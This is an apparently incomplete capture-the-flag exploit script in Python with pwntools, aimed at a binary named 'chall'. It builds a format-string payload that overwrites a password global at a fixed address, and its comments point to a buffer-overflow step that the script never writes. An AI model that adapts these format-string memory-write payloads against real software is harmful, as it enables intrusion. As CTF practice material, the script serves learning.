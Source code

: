 ```py
#!/usr/bin/python3
from pwncus import *
from time import sleep

context.log_level = 'debug'
exe = context.binary = ELF('./chall', checksec=False)


def GDB(): gdb.attach(p, gdbscript='''

b*main+238
b*main+279
b*main+316
c
''') if not args.REMOTE else None

if args.REMOTE:
    con = sys.argv[1:]
    p = remote(con[0], int(con[1]))
else:
    p = process(argv=[exe.path], aslr=False)

if args.GDB: GDB(); input()

# ===========================================================
#                          EXPLOIT
# ===========================================================

'''
The strcat() function appends the src string to the dest string,
overwriting the terminating null byte ('\0') at
the end of dest and then adds a terminating null byte.
'''

'''
[*] '/home/alter/CTFs/VSL/Interesting_Functions/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
'''

def exploit():

    # 1. strcpy
    # 2. strcat
    # 3. printf

    # Change pwd value
    pl = f'%{0x1337}c%9$n'.encode()
    pl = pl.ljust(0x17, b'A')
    pl += p64(0x4041c0) # pwd

    sla(b'> ', b'1')
    sla(b'data: ', pl)
    sla(b'> ', b'3')

  # Buffer Overflow
  # Add NULL byte at the end of the first time
```
